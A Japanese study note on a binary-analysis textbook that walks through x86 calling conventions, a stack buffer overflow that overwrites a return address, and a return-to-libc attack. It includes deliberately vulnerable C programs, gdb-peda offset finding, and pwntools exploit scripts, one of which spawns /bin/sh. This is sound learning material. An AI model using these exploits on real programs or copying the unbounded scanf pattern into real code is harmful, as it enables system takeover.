


# はじめて学ぶバイナリ解析
- 関数呼び出しに関係するアセンブリ命令
  id:: 656c0bf9-1d09-40f8-b33c-06e618e91e04
	- call func : EIP(=call funcの次の命令が格納されているアドレス)をスタックにpushし、EIPをfunc中の先頭の命令が格納されているアドレスにする
	- ret : EIPをスタックのトップの値にしてからESPを4増やす(pop eipと同じ)
- 関数呼び出しの実装(呼び出し規約の1つであるstdcallの場合)
	- 呼び出し元
		- ```
		  push arg2 ; 第二引数をスタックにpush
		  push arg1 ; 第一引数をスタックにpush
		  call label ; EIP(=mov retval, eaxが格納されているアドレス)をスタックにpushし、EIPをpush ebpのアドレスにする
		  mov retval, eax ; 関数の戻り値はEAXに格納されているので、これを保存
		  ```
	- 呼び出し先
		- ```
		  label:
		    push ebp ; EBPをスタックにpush
		    mov ebp, esp ; EBPにESPを代入する
		    sub esp, buflength ; ESPをアドレスの小さい方に動かして、この関数で利用する分のバッファを確保する
		    mov eax, [ebp+0x8] ; EAXにarg1を代入する
		    mov ebx, [ebp+0xC] ; EBXにarg2を代入する
		    (処理) ; 本体の処理をする、返り値はEAXに格納される
		    mov esp, ebp ; ESPにEBPを代入する
		    pop ebp ; EBPを呼び出し元が利用していたスタック領域のEBPに戻し、ESPを4増やす
		    ret ; EIPをスタックのトップの値(=mov retvalが格納されているアドレス)にし、ESPを4増やす
		  ```
	- stdcall以外の呼び出し規約としてcdeclというのがある([参考](http://prasinos.blog2.fc2.com/blog-entry-627.html))
- リターンアドレスの書き換え
	- ```c
	  #include <stdio.h>
	  
	  void pwn() {
	    printf("hacked!");
	  }
	  
	  void vuln() {
	    char overflowme[48];
	    scanf("%[^\n]", overflowme);
	  }
	  
	  int main() {
	    vuln();
	    printf("failed!");
	    return 0;
	  }
	  ```
	- [%[^\n]について](https://ja.wikipedia.org/wiki/Scanf#%E5%A4%89%E6%8F%9B%E6%8C%87%E5%AE%9A)
	- バッファオーバーフローを利用して、リターンアドレスを書き換え、通常実行されないpwn関数を呼び出す
	- overflowmeの入力をするタイミングでESPからリターンアドレスまでの差がどれだけあるのかと、pwn関数のアドレスを知る必要がある
	- 前者はgdb-pedaのpattcとpattoで知ることが出来る
		- pattcは指定された長さの文字列を生成する
			- ```
			  gdb-peda$ pattc 10
			  'AAA%AAsAAB'
			  ```
		- pattoは指定した文字列がpattcで生成した文字列のどこに出てくるかを調べる(0-indexed)
			- ```
			  gdb-peda$ patto AA%A
			  AA%A found at offset: 1
			  ```
		- pattc 70で生成した文字列をoverflowmeの入力に与える
			- ```
			  gdb-peda$ pattc 70
			  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3'
			  ```
		- 
		- EIPが0x48414132(2AAH)に書き換わっている
		- pattoでESPからリターンアドレスまでの差が60バイトであることが分かる
			- ```
			  gdb-peda$ patto 2AAH
			  2AAH found at offset: 60
			  ```
		- EBPは0x41416341(AcAA)に書き換わっていて、これは2AAHの前の文字列である
		- 長めに70文字を入力したので、リターンアドレスを超えて、呼び出し元の関数が利用していたスタック領域も一部書き換えている
	- 後者はp <関数名>で知ることが出来る
		- ```
		  gdb-peda$ p pwn
		  $1 = {<text variable, no debug info>} 0x5655556d <pwn>
		  ```
	- 以下のプログラムでリターンアドレスをpwn関数のアドレスに書き換え、pwn関数を実行させることが出来る
		- ```python
		  from pwn import *
		  p = process("./a.out")
		  p.sendline("A"*60+"\x6d\x55\x55\x56")
		  print(p.recvline())
		  ```
		- リトルエンディアンで並び替えて、書き換えることに注意
- ステップイン実行とステップアウト実行
	- gdb-pedaでnを打つとステップイン実行、sを打つとステップアウト実行が行われる
	- call命令の時に実行中の関数から出ずに命令を進めるのがステップイン実行、実行中の関数を超えて命令を進めるのがステップアウト実行
- pattcとpattoを使わなくても、ステップアウト実行をすることで、ESPからリターンアドレスの差は求めることが出来る
- return to libc
	- リターンアドレスをlibc(標準Cライブラリ : standard c library)中のsystem関数などのアドレスに書き換える攻撃をreturn to libcと呼ぶ
	- system関数は引数として渡した文字列をコマンドとして実行する関数で、system("/bin/sh")を実行させることが出来れば、コンピュータを乗っ取ることが可能
- system関数開始時のスタックの状態
	- ```c
	  #include <stdlib.h>
	  
	  int main() {
	    system("/bin/ls");
	    return 0;
	  }
	  ```
	- 
	- 0xffffcfacにはリターンアドレス0x56555547が格納されている
	- 0xffffcfb0には"/bin/ls"が格納されているアドレス(0x565555e0)が格納されている
- リターンアドレスをsystem関数のアドレスに書き換えるだけでなく、retでsystem関数にジャンプした後にsystem関数が正常に動作するために、system関数が実行されるタイミングで、スタックのトップにsystem関数にとってのリターンアドレスが、その下に"/bin/sh"が格納されているアドレスが存在しなければいけない
- つまり入力は、適当な文字列+system関数のアドレス+system関数にとってのリターンアドレス+"/bin/sh"が格納されているアドレス、となる
	- system("/bin/sh")を実行させるだけなら、system関数にとってのリターンアドレスは適当で良い
- ```c
  #include <stdio.h>
  #include <stdlib.h>
  
  char global[] = "/bin/sh";
  
  void vuln() {
    printf("global:%p\n", global);
    char overflowme[32];
    scanf("%[^\n]", overflowme);
  }
  
  int main() {
    vuln();
    printf("failed!\n");
    return 0;
  }
  ```
	- 実際の攻撃ではメモリ上に"/bin/sh"を格納し、そのアドレスを取得して攻撃を行うが、手順が複雑であるため、今回はグローバル変数として定義し、そのアドレスを表示させる
	- グローバル変数が確保される領域を静的領域と呼び、静的領域はプログラム部ともスタック部とも異なる位置に存在し、プログラム内のどの関数からでもアクセス可能
- 以下のプログラムでsystem("/bin/sh")を実行させることが出来る
	- ```python
	  from pwn import *
	  p = process("./a.out")
	  p.sendline("A"*44+"\x00\xa2\xe1\xf7BBBB\x08\x70\x55\x56")
	  p.interactive()
	  ```
	- "A"*44は、ESPとリターンアドレスの差を埋める分
	- 0xf7e1a200はsystem関数のアドレス
	- BBBBはsystem関数にとってのリターンアドレスを適当に埋める分
	- 0x56557008は"/bin/sh"が格納されているアドレス
	- interactiveメソッドにより手動で入力を与えることが出来る